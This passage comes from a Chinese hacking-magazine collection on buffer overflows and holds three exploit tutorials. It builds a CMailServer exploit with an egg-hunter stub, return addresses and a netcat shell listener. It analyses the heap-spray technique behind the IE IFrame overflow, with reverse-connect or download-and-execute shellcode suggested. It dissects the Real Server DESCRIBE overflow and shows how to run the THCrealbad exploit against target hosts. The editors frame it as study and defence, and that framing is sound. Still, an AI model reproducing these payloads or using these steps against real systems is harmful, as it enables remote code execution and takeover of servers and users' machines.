

图8

我想这里就是一点不同的地方，有了些许的挑战性，而实际情况中，这种事情应该还是很常见的，好像 Serv-U 的最近连续两个溢出都是同样的情况。

先从实际情况来分析一下。在左下地址栏窗口中，滚动条的拖动范围稍微大一点，往下面看，到了大约 0x2FDBXXX 的地方，又发现了我们提交的数据的另外一个复制，仔细观察一下，好像就是原始的数据。如果能够到这里来执行的话，提交的是什么就执行的是什么了！可以考虑在获得控制权的时候先搜索一下内存，找到这一片原始的数据，然后跳过来执行。至于控制权，呵呵，我们在前面的一步不是已经得到了吗？

好了，既然我们提交什么就能执行什么，那我们就提交一个搜索 ShellCode 的代码，在内存中找到原始的 ShellCode，然后跳过去执行就能满足要求。设想是这样：esp 指向的是当前被修改过的字符串，从这里开始往下找，找到原始的字符串后跳转过去执行。关于判断是否是原始字符串的问题，通过观察看到，明明提交的是大写的字母，却变成了小写字母。可以设想 CMailServer 把提交的字符串中的大写字母变成了小写字母，我们只要设定一个大写字母构成的标志，在搜索的时候发现了大写的标志，就认为找到了原始的字符串。先写一个框架如下：

```asm
mov eax, 'NEWS'    ; 设定标记
mov ebx, esp       ; 从 esp 开始找
a:  inc ebx        ; 向下找
cmp [ebx], eax     ; 比较是否找到了
jnz a              ; 没有的话继续向下
add ebx, 3         ; 找到了的话，跳过这几个字符
jmp ebx            ; 再跳转过去
```

VC 中是可以嵌入汇编的，而且可以方便地看汇编后的代码，嵌入汇编以后，按 F10 调试，然后按 Ctrl+F11 就可以看到（如果没有看到，可以试试看右键菜单中的“Code Bytes”），后面是编译后的代码，前面就是机器码，如图 9 所示。



图9

这里还有一个问题，不知道大家有没有想到：这些代码是要执行的，而且是被修改以后的字符串，所以还不能有大写字母，即 ASCII 码在 0x41 到 0x5A 之间的字符。要是有的话，被 CMailServer 一转换，全成了小写字母，到时候都不能正常执行，这个道理和不能直接加 ShellCode 是一样的。那么，把上面的东西改一下，看看能不能避免 ASCII 码在 0x41 到 0x5A 之间的字符；如果可以，不管 CMailServer 怎么转换，都没有关系。

出问题的指令主要在 `mov eax, 'NEWS'` 和 `inc ebx`。第一个，咱们退而求其次，用一个减法；后面的 `inc ebx`，也用一个加减法。

```asm
mov eax, 'NEWS'  =>  mov eax, 'news'
                     sub eax, 0x20202020
inc ebx          =>  add ebx, 1 或者 sub ebx, -1
```

再编译一下看看机器码，ASCII 码在 0x41 到 0x5A 之间的字符全部没有了，这也算是符合要求吧。我们把这一段汇编编译后的机器码收集起来，加在前面的跳转地址后面，也就是 esp 指向的地方，在溢出的时候，它们就可以被执行到。接下来设定大写的标记，然后加上 ShellCode，全部组成一个程序，就成了程序 4.cpp。

现在整体看一下这个很长的字符串：前面是一大堆垃圾字符，然后在 `szUser + 5 + 524` 的地方是 `0x7FFA9C1B`，接下来是我们花了不少力气写的寻找没有被修改过的字符串的 Search code，然后是一个标记，最后是 ShellCode。用 L 表示垃圾字符，R 表示 `0x7FFA9C1B` 这个 `push esp/ret` 的地址，S 表示 Search code，F 表示标记“NEWS”，C 表示 ShellCode 的话，是下面一张表。

| L | R | S | F | C |
|---|---|---|---|---|
| L | R | S | F | C |

这也是内存中的表示，加了“'”表示这是被修改后的字符串。实际上我们获得控制权是通过溢出。不管是怎样获得的，反正就是执行到了 R' 给定的地方（0x7FFA9C1B），然后跳转到了 esp 指向的地方即 S'，S' 向下搜索到 F，最后一个跳转，跳到了 C。

这其中，L 和 l 是否一致无所谓，R 和 R'、S 和 S' 一定要一样，也就是不能含有大写字母，不然执行的时候就变了。F 和 F' 一定不能一样——如果一样的话，就没有办法定位原始数据与被 CMailServer 修改过的数据的位置。最后 C' 和 C 是不一样的，要是一样的话，我们就不用花这么大的力气去写一个 Search code。当然改 ShellCode 也是可以的，要改到没有 ASCII 码在 0x41 到 0x5A 之间的字符太困难，所以还是算了。

试试执行的结果，在本地监听一个端口 11111（cmd.exe 下面 `nc -l -vv -p 1111`），是不是出来了 Shell？呵呵，一个 Exploit 就这么写好了。好像不用去看反汇编后的 CMailServer，也不用对溢出有多么深刻的理解。

只要知道溢出后能够执行到我们自己提交的字符串上面去，然后想办法让它执行正确的 ShellCode 就成。上面的过程同样适用于最近的一个 Serv-U 的 mdtm 溢出，过程麻烦一点，但道理都是一样。

下面说说寻找 `push esp/ret` 的方法。首先我们要确定一下机器码是多少，在 VC 中嵌入汇编，按照前面的方法看到编译后的机器码是 `54 C3`。在 OllyDbg 左下角的地址框中间，先到一个地方 `0x7ffa1571`（lion），在这里找到了通用的另外一个代码。我们的猜想是在附近能够找到想要的代码。右键选择搜索，HEX 栏中填入 `54 C3`，然后就可以找到匹配的代码，按 Ctrl+L 键看看，能够找到很多呢！

最后还有个小问题，前面的 ret 地址定位，如果是固定长度的话，确实可以通过两次溢出定位，但是实际上这是和安装路径有关的，还有没有好一点的方法来定位呢？不知道有没有哪位大虾可以为在下解惑啊？

> **WTF：** IFrame 这个漏洞危害太严重了，很容易爆发全面的病毒或者蠕虫，而且它没有补丁，所以我们只是将它作为漏洞研究的类型去看，并不提倡公开灵巧的 EXP、功能强大的漏洞利用程序，请各位有能力自己编写出漏洞利用程序的朋友慎之，勿给脆弱的互联网再一次沉重的打击……



Bugtraq 公布了一个 IE 的溢出漏洞并给出了相关的利用 EXP。这个漏洞目前还没有官方补丁，所以危害挺大。更为严重的是这个漏洞影响的系统很广，在几乎所有的 Windows 语言和版本下面都可以利用。可以想象，隔不了多久也许就有相应的蠕虫或者木马出来。这个漏洞的描述和利用出来以后，有人专门写了分析文章。为了照顾没有看过这篇文章的朋友，这里还是简要地描述一下。

IE 在处理 IFrame 的时候，调用 Wcscpy 复制 IFrame 的 Name 这一步没有做长度检查，结果导致覆盖到后面一个结构。这不是一个典型的栈溢出，所以并没有覆盖到 Ret 地址或者 SEH，因此利用基本上集中在利用原来程序本身代码的基础上。OllyDbg 跟踪一个出错的 HTML 页面可以看到，异常触发时 EIP 一般会停在这一步上：

```asm
7108E242  .8B40 34        MOV EAX,DWORD PTR DS:[EAX+34]
```

回溯到函数开头，我们可以看到反汇编后出错的函数是这样的：

```asm
7108E229  55                PUSH EBP
7108E22A  8BEC              MOV EBP,ESP
7108E22C  8B45 14           MOV EAX,DWORD PTR SS:[EBP+14]
7108E22F  8320 00           AND DWORD PTR DS:[EAX],0
7108E232  53                PUSH EBX
7108E233  8B5D 08           MOV EBX,DWORD PTR SS:[EBP+8]
7108E236  8B83 FC130000     MOV EAX,DWORD PTR DS:[EBX+13FC]
7108E23C  85C0              TEST EAX,EAX
7108E23E  56                PUSH ESI
7108E23F  57                PUSH EDI
7108E240  74 28             JE SHORT SHDOCVW...
7108E26A  ...
```

## 初级篇

## 《黑客防线》2009 缓冲区溢出攻击与防范专辑

```asm
7108E242 8B40 34      MOV EAX,DWORD PTR DS:[EAX+34]
7108E245 85C0         TEST EAX,EAX
7108E247 74 21        JE SHORT SHDOCVW...
7108E249 8B75 0C      MOV ESI,DWORD PTR SS:[EBP+C]
7108E24C 6A 04        PUSH 4
7108E24E 59           POP ECX
7108E24F BF ...       MOV EDI,SHDOCVW....
7108E254 33D2         XOR EDX,EDX
7108E256 F3:A7        REP CMPS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]
7108E258 75 10        JNZ SHORT SHDOCVW...
7108E25A ...
7108E25D 8B08         MOV ECX,DWORD PTR DS:[EAX]
7108E25F FF75 10      PUSH DWORD PTR SS:[EBP+10]
7108E262 50           PUSH EAX
7108E263 FF11         CALL DWORD PTR DS:[ECX]
```

我们可以控制的值最终在 7108E236 处传递给了 EAX，然后我们精简一下上面的代码，更为直观地看看，是这样的：

```asm
7108E242 8B40 34   MOV EAX,DWORD PTR DS:[EAX+34]
7108E25D 8B08      MOV ECX,DWORD PTR DS:[EAX]
7108E263 FF11      CALL DWORD PTR DS:[ECX]
```

我们仅能控制 EAX，接着 IE 会把 EAX+34 处的内容赋给 EAX，再把 EAX 处的内容赋给 ECX，最后 ECX 作为一个函数的指针被调用。这个过程还是很麻烦的，虽然我们能够控制其中的一个寄存器，并且可以间接地影响到程序的流程，但是这个“间接”的层数实在太多，三次对地址的访问使得我们很难找到一个比较好的地址。还有更糟糕的是就算找到了，也没有寄存器可以定位，栈内的数据似乎也没有直接指向我们能够控制的地方。

网上给出来的利用大多是使用强行定位的方法，这种方法比较野蛮。去年似乎见到有人用过，就是通过其他的路子预先申请大量的内存，强迫某个地址出现某些代码，然后让这个地址的内容和这个地址的值一致。这样不管你“间接”多少次，最后得到的还是这个地址，再 Call 的时候，就跳转过来了。

对于这个漏洞，直观的解释是：比如我通过大量申请内存，最后控制了 0x11111111 及其附近的内容全部为 0x11111111，那么就设定间接影响到程序流程的那个 EAX 为 0x11111111，通过两次取地址的内容操作后，ECX 的值还是 0x11111111，最后一个 Call 自然就会跳转到 0x11111111 了。

可以看到，这个地址除了要与其内容相同以外，还要求地址本身是一个可执行且不会再次导致异常的指令。外面 POC 用的是 0x0D0D0D0D 这个地址，填充的也是大量的 0x0D0D0D0D，因为连续 5 个 0x0D 刚好可以构成一个“XOR EAX, 0D0D0D0Dh”。

这是一个肯定不会再次导致异常的指令，按照这个 POC 所设想的，经过大量（而且个数通常不确定）的“XOR EAX, 0D0D0D0Dh”后，最后肯定会执行到 ShellCode，也就是 JavaScript 里面定义的那个 ShellCode 包含的数据。

这里还有一个小细节，那就是 ShellCode 前面 4 个字节为什么都是 0x43 呢？其实很简单，因为你不能确定前面这么多的 0D 是不是刚好都构成了“XOR EAX, 0D0D0D0Dh”，最坏的情况是在 ShellCode 之前有一个 0x0D，那肯定是要和 ShellCode 的前 4 个字节形成一条语句的。这 4 个 0x43 就是为了保证 ShellCode 能够完整地从开头开始运行，而 0x43 本身就是一个单字节的 inc edx，即使单独成为一条语句也没有什么大碍。

因为这个溢出不是堆溢出，而且对字符似乎也没有什么特别的约束，所以可以按照自己的需求替换掉 ShellCode，无论是反向连接或者是下载并执行都可以。最简单的办法就是在原来的基础上直接 Copy & Paste 一个过去。倘若要自己生成文件，那就要稍微麻烦一点，因为你要控制 EAX 的值，而它本身读过来的是一个 WideChar，所以要求你生成的文件也是 Unicode 的。

一开始的时候，我也是直接就写，写到一半发现不太对劲，文件大小似乎不对（是我估计大小的两倍），结果用二进制编辑器打开一看才知道，原来这是一个 Unicode 格式的东西，文件的开头是 0xFFFE，于是只好推翻重来。

我其实并没有弄清楚为什么作者选用了 0x0D0D0D0D 这样一个数字，也许和堆的管理有关。有几次我用 04 来代替所有的 0D 是成功的，不过大部分情况下 0x0C0C0C0C 处的数据不是我们所能控制的。如果堆的虚拟分配确实是从低地址到高地址，那至多 200M 的数据就能控制到 0x0D0D0D0D 的地方，JavaScript 中循环分配的次数也许还可以减上一减。不过不清楚堆的分配情况，这些也就是瞎猜的。

另外，还可能有其他比较好的利用方法吗？Leven 在 XFocus 上提到有，不过不知道具体是什么，希望 Leven 高人能够共享一下……前段时间看 Shok 的文章时知道 Lookaside 表，当小堆（1000 字节）释放的时候会注册一个对应的项，而这个项是可以计算出来的，如果可以在内存中找到我们计算出来的这个数字，似乎也是条路子。麻烦的是已经释放的堆头部会有一个指针，这个指针是不是可以执行的，这是一个问题。

这个漏洞目前虽然没有官方的补丁，但是“民间补丁”已经有了，大家最好赶快补上，因为这个漏洞还是比较易受攻击的。

脚本小子：给大家送上了几篇简单的系统漏洞溢出、exp 编写的文章，很多对系统漏洞感兴趣的朋友都表示了热烈的欢迎。所以我们专门开设了这样的溢出教学版块，和大家一起来分析漏洞是如何产生的，高手们又是如何去触发这个漏洞的，最后的 exp 又是如何编写的。当然，我们的立场是如何去防止这样的漏洞出现在我们自己编写的程序里……同时，也欢迎大家把自己对某漏洞的分析、编写过程发给我们，和大家一起分享溢出的乐趣。新旧不重要，重要的是漏洞触发、exp 编写的思维哦！下面，请出牛人 isno 给大家带来精彩文章。

## 免费下载和我的最爱

## —— Real Server 远程溢出漏洞分析


文 / isno

这是去年 ImmunitySec 的 Dave 所发现的一个 Real Server 远程缓冲区溢出漏洞，虽然漏洞已经公布了相当长一段时间，但是由于 Real Server 的补丁升级不像 Windows 那样方便，因此目前网上的大多数使用 Real Server 的视频点播网站仍然存在此漏洞。而且这个漏洞是比较特殊的，它并不是普通的字符串缓冲区溢出，而是一个指针数组的溢出。因此，如果攻击程序的通用性非常好，就可以很容易地利用这个漏洞来进行攻击。下面我们就来分析这个漏洞成因以及攻击方法。

## Real Server 工作原理

Real Server 是一款由 RealNetworks 开发和维护的多类型媒体服务器，在 Real Server 8.0 以后版本被命名为 Helix Server，但它们的内核都是一样的。在下列版本的 Real Server 中存在此漏洞：

- Real Networks Real Server 8.0 Beta
- Real Networks Real Server 8.02
- Real Networks Real Server 8.01
- Real Networks Real Server 8.0
- Real Networks Real Server 7.0.2
- Real Networks Real Server 7.0.1
- Real Networks Real Server 7.0
- Real Networks Real Server G2 1.0
- Real Networks Helix Universal Server 9.01
- Real Networks Helix Universal Server 9.0
- Real Networks Helix Universal Server 8.01

问题出在 Real Server 的 View Source 插件上。这个插件负责读和显示媒体文件的文件格式头，当部分字符（如“:”）以超多数量包含在 URL 中，服务器协议在对此 URL 进行解析时可发生缓冲区溢出，精心构建提交数据可能以服务进程权限在系统上执行任意指令。

我们首先来介绍一下 Real Server 是如何进行工作的。Real Server 和普通的 Web 服务器类似，它是使用 RTSP 来实现流媒体点播的。RTSP 是 Realtime Streaming Protocol 的缩写，意思是实时流协议，它是一种应用层协议，与 HTTP 非常类似。如果使用 IE 浏览器，用鼠标单击带有 RTSP 协议的链接，可以直接启动电脑中的 RealPlayer 进行播放。

由于这种协议是实时播放的，因此不能直接单击下载或利用“网络蚂蚁”“网际快车”等下载工具进行下载。一个常见的网络点播操作过程如下：每次当客户端（RealPlayer）进行网上点播操作时，首先会连接到服务端（Real Server）的 554 端口，然后向服务器发送一个 OPTIONS 操作来获取服务器支持哪些操作。服务器会把服务器所支持的操作返回给客户端。客户端在得到的结果当中寻找 DESCRIBE，如果服务器支持 DESCRIBE 操作，客户端就会发送 DESCRIBE 操作来获取媒体文件的相关信息。在这之后，客户端会发送 SETUP 和 SETUP_PARAMETER 操作把客户端的数据监听端口等信息告诉服务器。服务器会回连到客户端的这个端口，建立数据传输通道，然后把媒体文件的内容发送到客户端，这样客户端就可以进行播放了。



#### 漏洞原理

在了解了 Real Server 的流媒体播放原理之后，我们来研究一下 View Source 插件的缓冲区溢出漏洞。这个漏洞是在上面所讲述的第三个过程当中被触发的，当客户端向服务器发送 DESCRIBE 操作时，服务器就会调用 View Source 插件来获取流媒体文件的相关信息。在解析流媒体文件名的时候，Real Server 没有进行足够的安全检查，造成了一个堆栈当中的指针数组溢出，从而覆盖到堆栈里保存的返回地址。

但是这个漏洞的利用过程是相当特殊的，它不是一般的字符串缓冲区溢出，而是一个指针数组的溢出，而且溢出之后进行覆盖的内容攻击者是无法控制的。然而非常凑巧的是，由于被溢出的指针数组中存放的可能是攻击者可以控制的内容地址，所以利用一些技巧可以让返回地址被覆盖成可以执行到 ShellCode 的地址。如此一来，就无须对不同版本的操作系统以及不同版本的 Real Server 来使用不同的覆盖返回地址，这样反而提高了漏洞利用的成功率。

所以，凡是有漏洞的服务器，无论操作系统版本还是 Real Server 版本都无关紧要，都可以非常容易地攻击成功。现在，我们来看一下漏洞发生的具体情况。在本地安装一个 Real Server 8.01，然后使用 netcat 连接到本地的 554 端口，发送如下请求：

```bash
C:\>nc -vv localhost 554
isno [127.0.0.1] 554 (?) open
DESCRIBE /aaaa/a.smi RTSP/1.0
```

在 RTSP/1.0 后面要跟两个回车，然后会进入 rmserver.exe 进程中，在 View Source 插件即 vsrc3260.dll 中的 0x0254D330 函数当中对媒体信息格式字符串进行解析：

```asm
.text:1000D330 ; int __stdcall sub_1000D330(int, char *)
.text:1000D330 sub_1000D330 proc near
.text:1000D330 var_C = dword ptr -0Ch
.text:1000D330 var_8 = dword ptr -8
.text:1000D330 var_4 = dword ptr -4
.text:1000D330 arg_0 = dword ptr 8
.text:1000D330 arg_4 = dword ptr 0Ch
......
```

这个字符串参数就是媒体信息格式字符串，它是由一系列表示媒体信息的字符串所组成，并由“.”符号来进行分隔。当我们提交了上面的 DESCRIBE 请求后，Real Server 会组成一个媒体信息格式字符串来进行查询，这个字符串的内容是 config.ViewSource_Configuration./aaaa，其中 /aaaa 就是我们提交的请求当中要查询的媒体文件的路径。在这个字符串之后是另外一个字符串 a.smi，也就是提交的请求当中要查询的媒体文件名。

这个 sub_1000D330 函数所要进行的就是对媒体信息格式字符串进行解析，在后面会调用另外一个函数：

```asm
.text:1000D43E lea edx, [ebp+var_4]
.text:1000D441 push edx
.text:1000D442 push ebx
.text:1000D443 mov eax, [eax+10h]
.text:1000D446 push eax
.text:1000D447 mov ecx, [eax]
.text:1000D449 call dword ptr [ecx+78h]
......
.text:00432EC3 mov eax, [ebp+arg_8]
.text:00432EC6 mov ecx, [ebp+arg_4]
.text:00432EC9 mov edx, [ebp+arg_0]
.text:00432ECC push eax
.text:00432ECD push ecx
.text:00432ECE mov ecx, [edx+14h]
.text:00432ED1 call sub_47C860
......
.text:0047C871 push ecx
.text:0047C872 lea ecx, [ebp+var_8]
.text:0047C875 push edx
.text:0047C876 push ecx
.text:0047C877 mov ecx, esi
.text:0047C879 mov [ebp+var_8], 0
.text:0047C880 mov [ebp+var_4], 0
.text:0047C887 call dword ptr [eax+44]
```

再经过几次函数调用之后，最终会去调用 sub_4838C0 函数：

```asm
.text:0044056A push 2Eh
.text:0044056C push ecx
.text:0044056D mov ecx, eax
.text:0044056F call sub_4838C0
```

sub_4838C0 这个函数的作用就是把媒体信息格式字符串按照指定字符（这里是“.”字符）进行解析分割，然后把解析出来的字符串地址放在一个指针数组里面：

```asm
.text:004838C0 sub_4838C0 proc near
; CODE XREF: sub_440550+1F_p
.text:004838C0
; sub_47AA10+29_p ...
.text:004838C0 var_1000 = dword ptr -1000h
.text:004838C0 arg_0 = dword ptr 8
.text:004838C0 arg_4 = byte ptr 0Ch

.text:004838C0 push ebp
.text:004838C1 mov ebp, esp
.text:004838C3 mov eax, 1000h
.text:004838C8 call __alloca_probe
```

调用 __alloca_probe 的作用是在函数堆栈中分配一块 0x1000 字节大小的缓冲区，其实这是一个指针数组，因为每个指针所占大小是 4 字节，所以它能存放的指针数量是 1000 ÷ 4 = 250 个。用 C 语言形式来表示就是 `DWORD *ptr[250]`。

```asm
......
.text:004838D0 mov edi, [ebp+arg_0]
; 把媒体信息格式字符串地址放入 edi
.text:004838D3 test edi, edi
; 判断此地址是否为 0
.text:004838D5 mov ebx, ecx
.text:004838D7 jnz short loc_4838F2
; 如果为 0 则进行错误处理
.text:004838D9 cmp byte ptr [edi], 0
; 判断此地址内容是否为空
.text:004838DC jz loc_4839DB
; 如果为空则进行错误处理
......
```

下面来填充一个信息结构，这个结构主要包括媒体信息格式字符串地址以及两个当作计数器的整型变量：

```asm
.text:004838E2 mov eax, 1
.text:004838E7 mov [ebx+4], edi
.text:004838EA mov [ebx+15h], eax
.text:004838ED mov [ebx+11h], eax
.text:004838F0 mov al, [edi]
.text:004838F2 mov [ebp+var_1000], edi
.text:004838F8 test al, al
.text:004838FA jz short loc_483930
```

下面的操作就是分析媒体信息格式字符串，遇到“.”字符就把这个地址放入指针数组中，即从 ptr[1] 开始存放含有“.”字符的地址。因为 ptr[] 数组最大为 250，媒体信息格式字符串地址已经占用了 1 个位置，所以还能存放 249 个指针。

如果所查询的媒体信息格式字符串中包含的“.”字符的数量超过 249 个，那么就会发生指针数组溢出，然后就可以用含有“.”字符的地址来覆盖返回地址。这样如果用含有“.”字符的地址构造一个可以执行的指令的话，就可以让函数返回时跳转到我们的 ShellCode 当中去。

```asm
.text:004838FC loc_4838FC:
; CODE XREF: sub_4838C0+6E_j
.text:004838FC mov eax, [ebx+i*4]
.text:004838FF mov cl, [ebp+arg_4]
; 这个参数放的就是 "." 字符
.text:00483902 cmp [eax], cl
; 比较是否为 "." 字符
.text:00483904 jnz short loc_48391B
.text:00483906 cmp eax, edi
.text:00483908 jbe short loc_48391B
.text:0048390A mov edx, [ebx+15h]
.text:0048390D mov [ebp+edx*4+var_1000], eax
; 如果是 "." 字符的话，就把这个地址按计数器下标依次放入指针数组
.text:00483914 mov eax, [ebx+15h]
.text:00483917 inc eax
.text:00483918 mov [ebx+15h], eax

.text:0048391B loc_48391B:
; CODE XREF: sub_4838C0+44_j
.text:0048391B mov esi, [ebx+i*4]
.text:0048391E mov edx, [ebx+11h]
.text:00483921 inc esi
.text:00483922 inc edx
.text:00483923 mov eax, esi
.text:00483925 mov [ebx+4], esi
.text:00483928 mov [ebx+11h], edx
.text:0048392B cmp byte ptr [eax], 0
; 如果字符串结束就进行后面的操作
.text:0048392E jnz short loc_4838FC
```

如果用 C 语言来表示上面的程序，大概就是下面这样：

```c
int AnalyseMediaInfo(int i, char *szInfo)
{
    DWORD *ptr[250];   // 在缓冲区中分配一个 250 大小的指针数组
    int i, j;          // 两个计数器变量
    if (szInfo == NULL || szInfo[0] == 0)
        goto err;      // 判断媒体信息格式字符串是否合法

    ptr[0] = szInfo;   // 存放媒体信息格式字符串地址
    for (i = 0, j = 1; szInfo[i] != 0; i++, j++)
    {
        // ...
    }
}
```

```cpp
if (szInfo[i] == ':')
    // 寻找媒体信息格式字符串中含有“:”字符的地方
    ptr[j] = &szInfo[i];
    // 找到的话就把这个地方放入 ptr[] 数组当中
else
    do something...
}
......
}
```

这样一来，大家就可以更清楚地看出溢出是如何发生的了。这个函数的堆栈里依次存放着两个参数、返回地址、保存的 EBP、ptr[] 数组，因为程序没有对 ptr[] 数组的容量进行判断，所以当不断在 ptr[] 中存入地址并超过 249 个时，就会覆盖到堆栈里的 EBP 和返回地址。那么，就用含有“:”字符且可以执行的地址覆盖返回地址，这样当函数返回的时候就可以成功地跳转到 ShellCode 去了。

知道了该漏洞的成因之后，要利用这个漏洞就不难了。我们要做的就是发送一个 `DESCRIBE /path/name.smi RTSP/1.0` 请求，其中在 path 当中包含大量“:”字符（超过 249 个），这样就会用其中一个“:”字符的地址覆盖返回地址，当函数返回的时候就跳到这个地址去执行了。那么如何使得这个地址的指令可以合法执行呢？用“../”这样的字符，即 `2E 2E 2F` 恰好组成一个 DAS 指令，这个指令只是改变 EAX 的值而没有什么特殊影响，可以当作 NOP 指令来使用，然后把 ShellCode 放在 name 里面，这样就可以成功地执行到 ShellCode 了。这种利用方法的好处在于不用寻找通用的返回地址来跳转到 ShellCode，如此一来就大大提高了攻击的成功率。

其实，我们已经再不用费心去写攻击程序了，因为著名黑客组织 THC 已经写出来一个非常完美的 exploit 程序，对于 Helix Server 9.02 以下版本的服务器几乎可以 100% 攻击成功。这个程序的使用也非常简单：

```bash
C:\Downloads\RealX>THCrealbad
THCREALbad v0.4 - Wind0wZ & Linux remote root sploit for Realservers 8+9
by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)
Usage: <Host> <OS>
0 = Wind0wZ
1 = Linux
2 = OS Test Mode
```

首先，我们用选项 2 来测试目标服务器的 Real Server 版本：

```bash
C:\Downloads\RealX>THCrealbad 192.168.0.1 2
```

```bash
THCREALbad v0.4 - Wind0wZ & Linux remote root sploit for Realservers 8+9
by Johnny Cyberpunk (jcyberpunk@thehackerschoice.com)
Detected OS: RealServer Version 8.0.0.149 (win32)
```

只要显示出的 Real Server 版本在 9.02 以下，那么恭喜你，攻击成功的概率在 95% 以上了。如果测试出的系统版本是 Win32，就用选项 0 来攻击；如果测试出的系统版本是 Linux，那么就用选项 1 来攻击。

